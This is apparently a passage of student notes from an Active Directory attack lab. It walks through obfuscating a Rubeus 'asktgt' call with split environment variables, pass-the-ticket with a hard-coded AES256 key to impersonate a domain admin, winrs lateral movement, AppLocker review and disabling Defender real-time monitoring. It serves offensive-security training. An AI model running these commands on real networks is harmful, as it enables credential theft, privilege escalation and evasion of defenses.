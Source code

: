 ```
and asktgt
```
Run the  commands in the same command prompt session
```
C:\Windows\system32>set "z=t"
C:\Windows\system32>set "y=g"
C:\Windows\system32>set "x=t"
C:\Windows\system32>set "w=k"
C:\Windows\system32>set "v=s"
C:\Windows\system32>set "u=a"
C:\Windows\system32>set "Pwn=%u%%v%%w%%x%%y%%z%"
```
Then use Rubeus
```
echo %Pwn%
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
We get CMD session !!!
Cmd session in student Vm as SVCadmin ( from this session we can try to access dcorp-dc) since svcadmin is domain adminstrator.
```
winrs -r:dcorp-dc cmd /c set username
```

---
**Derivative Local Admin**
we check if we have admin access using
```
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```

we connect to dcopr-admis-srv from student Vm ( since we added this user in admin group and we can have access to adminsrv )
we check if applocker is enabled
```
winrs -r:dcorp-adminsrv cmd
reg query HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

we find a rule that allows everyone to run scripts from the C:\ProgramFiles folder!
we open another PS session using 
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Enter-PSSession dcorp-adminsrv
$ExecutionContext.SessionState.LanguageMode
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```
we then disable firewall there on admins-srv
```
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

